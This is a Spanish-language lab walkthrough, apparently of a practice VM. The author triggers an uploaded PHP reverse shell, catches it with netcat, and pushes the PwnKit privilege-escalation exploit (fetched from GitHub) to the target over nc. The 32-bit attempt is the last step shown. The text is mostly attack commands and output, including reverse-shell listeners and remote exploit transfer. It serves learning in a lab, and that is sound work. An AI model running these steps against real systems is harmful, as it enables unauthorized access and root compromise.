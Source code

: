 ### Hago el get después cargar el shell.PHp mediante el panel de admin
```bash
┌──(kali㉿kali)-[~/Desktop/shel_sql]
└─$ curl http://10.0.2.8/admin/uploads/shell.PHp
```

Mientras escucho por el puerto 4444 con nc:

```bash
┌──(kali㉿kali)-[~/Desktop/shel_sql]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.8] 34344
Linux debian 2.6.32-5-686 #1 SMP Sun May 6 04:01:19 UTC 2012 i686 GNU/Linux
 19:18:45 up  1:24,  6 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
user     tty1                      17:54    1:23m  0.11s  0.08s -bash
user     tty2                      17:54    1:24m  0.01s  0.01s -bash
user     tty5                      17:54    1:24m  0.00s  0.00s -bash
user     tty4                      17:54    1:24m  0.00s  0.00s -bash
user     tty6                      17:54    1:24m  0.00s  0.00s -bash
user     tty3                      17:54    1:24m  0.00s  0.00s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$
```
### En el servidor (a través de tu reverse shell existente)

Primero, en tu shell reverse actual, preparas el servidor para recibir el archivo. Esto implica usar `nc` para escuchar en un puerto específico y redirigir la salida a un archivo. Si no tienes `nc` disponible en el servidor, podrías usar `python` o cualquier otro método que permita recibir datos sobre TCP. Asegúrate de elegir un puerto que no esté siendo usado (`12345` en tu ejemplo parece estar bien, siempre y cuando no esté ya en uso).

Si nc está disponible, podrías hacer algo como esto en el servidor:

```bash
$ nc -lvnp 12345 > /tmp/PwnKit2
listening on [any] 12345 ...
```

Esto hará que `nc` escuche en el puerto `12345` y escriba todo lo que reciba en el archivo `/tmp/PwnKit2`

-----------------------------------------------------------------
### En la máquina Kali
Me descargo el archivo PwnKit
```bash
┌──(kali㉿kali)-[~/Desktop/shel_sql]
└─$ curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit

┌──(kali㉿kali)-[~/Desktop/shel_sql]
└─$ ls
kill_get.sh  kill.sh  PwnKit  shell.PHp

┌──(kali㉿kali)-[~/Desktop/shel_sql]
└─$ chmod +x PwnKit                                                               
┌──(kali㉿kali)-[~/Desktop/shel_sql]
└─$ ls -l PwnKit 
-rwxr-xr-x 1 kali kali 18040 Mar 21 17:10 PwnKit
```
Mediante `nc` envió el contenido del fichero descargado.
┌──(kali㉿kali)-[~/Desktop/shel_sql]
└─$ nc 10.0.2.8 12345 < /home/kali/Desktop/shel_sql/PwnKit  

En el lado del servidor compruebo:

Conexión realizada:
```bash
$ nc -lvnp 12345 > /tmp/PwnKit
listening on [any] 12345 ...
connect to [10.0.2.8] from (UNKNOWN) [10.0.2.5] 36654
```

Cuando intentaba lanzar el binario me da este error:
```bash
$ /tmp/PwnKit
/tmp/PwnKit: 1: Syntax error: ")" unexpected
```
Porque el binario era de 64 bits:
```bash
$ file /tmp/PwnKit
/tmp/PwnKit: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), not stripped
```

Ahora me descargo el binario de 32 bits:
```bash
┌──(kali㉿kali)-[~/Desktop/shel_sql]
└─$ curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit32 -o PwnKit32

┌──(kali㉿kali)-[~/Desktop/shel_sql]
└─$ file PwnKit32
PwnKit32: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c1da47dfa92fe574f5f18fe7014b31a692a0a5f, with debug_info, not stripped
```

No funciona.
